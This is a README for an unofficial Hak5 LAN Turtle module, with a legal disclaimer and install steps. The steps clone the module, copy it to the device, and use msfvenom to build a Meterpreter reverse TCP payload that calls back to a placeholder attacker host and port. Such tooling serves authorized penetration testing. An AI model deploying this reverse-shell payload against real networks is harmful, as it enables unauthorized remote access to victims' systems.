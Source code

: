 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

** 1 - Download module from github**<br />
`git clone https://github.com/ATTACKnDEFEND/LanTurtlemeterpreter-mipsbe-reverse-tcp`

** 2 - copy meterpreter-mipsbe-reverse-tcp to Hak5 Turtle modules directory
`copy meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`

** 3 - On Kali generate Meterpreter payload with Msfvenom
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f elf > meterpreter-mipsbe-reverse-tcp`





